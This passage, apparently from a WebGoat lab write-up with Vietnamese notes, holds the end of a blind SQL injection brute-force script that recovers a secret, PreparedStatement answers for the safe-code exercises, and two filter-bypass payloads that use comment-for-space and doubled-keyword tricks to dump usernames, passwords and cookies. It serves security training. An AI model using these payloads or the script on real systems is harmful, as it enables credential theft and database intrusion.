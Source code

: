 ```python
            'password_reg': 'a',
            'confirm_password_reg': 'a'
        }
        response = sess.put(URL, data=payload, cookies=COOKIE)
        if 'exists' in response.text:
            key += c
            print('hex:', key)
            found = False

print('found:', unhexlify(key))

#thisisasecretfortomonly
```

## SQL Injection (mitigation)

### 5. Try it! Writing safe code

```java
Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
PreparedStatement = conn.prepareStatement("SELECT status FROM users WHERE name=? AND mail=?");
setString name;
setString mail;
```

### 6. Try it! Writing safe code

```java
try {  
	Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);  
	PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");  
	ps.setString(1, "meo");  
	ps.executeUpdate();  
} catch (Exception e) {  
	System.out.println("Oops. Something went wrong!");  
}
```

### 9. Input validation alone is not enough!!

Bị filter space nên thay space bằng `/**/`.

```sql
'/**/OR/**/1=1/**/UNION/**/SELECT/**/NULL,user_name,password,NULL,cookie,NULL,NULL/**/FROM/**/user_system_data--/**/
```

### 10. Input validation alone is not enough!!

Sử dụng query bài 9, ở đây bị replace `SELECT` và `FROM` nên mình chèn thêm vào giữa 1 lần nữa.

```sql
'/**/OR/**/1=1/**/UNION/**/SSELECTELECT/**/NULL,user_name,password,NULL,cookie,NULL,NULL/**/FFROMROM/**/user_system_data--/**/
```
